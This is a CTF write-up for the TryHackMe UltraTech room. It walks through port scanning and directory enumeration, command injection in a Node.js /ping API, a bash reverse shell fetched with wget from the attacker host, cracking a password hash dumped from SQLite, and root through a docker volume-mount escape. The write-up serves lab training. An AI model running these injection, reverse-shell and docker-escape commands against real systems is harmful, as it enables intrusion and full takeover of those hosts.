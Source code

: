 # Link
- https://tryhackme.com/room/ultratech1

# Info

## IP = $IP

# Ports

## PortScanning
```bash
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/UltraTech]
└─$ nmap $IP       
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-10 21:05 EDT
Nmap scan report for $IP
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8081/tcp open  blackice-icecap
```
```bash
sudo nmap -p- -sS $IP 
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown
```

## Software Versions
```bash
Aggressive OS guesses: Linux 5.4 (96%), Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.18 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- _ubuntu_ is the distribution used

## 21
```bash
21/tcp   open  ftp     vsftpd 3.0.3
```
- without `anonymous` user ;-;

## 22
```bash
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
```

## 8081
```bash
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```
- _node.js_ is the software

### Web Searching
- UltraTech API v0.1.3

### `gobuster`
```bash
/auth                 (Status: 200) [Size: 39]
/ping                 (Status: 500) [Size: 1094]
```

### _/auth_
- get params are: **login** and **password**

### _/ping_
- get params are: **ip**
- RCE?
    - remove ';', '|', '&', '$'
    - error in ``8.8.8.8$(ls)``: `/bin/sh: 1: Syntax error: word unexpected (expecting ")")`
    - works with "\`\`" symbols
    - create _rev shell_ with:

```bash
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/UltraTech]
└─$ echo "bash -i >& /dev/tcp/$ATK_IP/1234 0>&1" > shell.sh
                                                                             
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/UltraTech]
└─$ python -m http.server 80          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:8000/) ...
```
```
# Request with following param:
ip = `wget http://$ATK_IP:80/shell.sh -o shell.sh`

# Doesn't work, so I tried this:
ip = `wget $ATK_IP/shell.sh -o shell.sh`

# It worked! So I tried this (with open port in attack machine):
ip = `bash shell.sh`

# I got a shell!
```


## 31331
### `gobuster` directory-list-2.3-medium.txt
```bash
/images               (Status: 301) [Size: 320] [--> http://$IP:31331/images/]                                                                    
/css                  (Status: 301) [Size: 317] [--> http://$IP:31331/css/]                                                                       
/js                   (Status: 301) [Size: 316] [--> http://$IP:31331/js/]                                                                        
/javascript           (Status: 301) [Size: 324] [--> http://$IP:31331/javascript/]
```
### `gobuster` common.txt
```bash
/css                  (Status: 301) [Size: 317] [--> http://$IP:31331/css/]                                                                       
/favicon.ico          (Status: 200) [Size: 15086]
/images               (Status: 301) [Size: 320] [--> http://$IP:31331/images/]                                                                    
/index.html           (Status: 200) [Size: 6092]
/javascript           (Status: 301) [Size: 324] [--> http://$IP:31331/javascript/]                                                                
/js                   (Status: 301) [Size: 316] [--> http://$IP:31331/js/]                                                                        
/robots.txt           (Status: 200) [Size: 53]
```

### _/js_
- _api.js_
```js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

### _/robots.txt_
- /utech_sitemap.txt

### _/utech_sitemap.txt_
- /index.html
- /what.html
- /partners.html

# PrivEsc

## Searching
- in _/home/www/api_, I found a _utech.db.sqlite_

```bash
www@ultratech-prod:~/api$ cat utech.db.sqlite
cat utech.db.sqlite
zz��etableusersusersCREATE TABLE users (
            login Varchar,
            password Varchar,
            type Int
���(r00tf357a0c52799563c7c7b76c1e7543a32)admin0d0ea5111e3c1def594c1684e3b9be84
```

- in "https://crackstation.net/", I throw the hash `https://crackstation.net/` and I got `n100906` as password

## ssh with `r00t:n100906`
- got `r00t` shell (isn't root ;-;)

## _linpeas.sh_
- uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
- https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker
```bash
r00t@ultratech-prod:/tmp$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
r00t@ultratech-prod:/tmp$ docker run -it -v /:/host/ 495d6437fc1e chroot /host/ bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ae4466070836:/# whoami
root
```

## In Docker, I found a private ssh key
- check the first 9 chars and GG =D
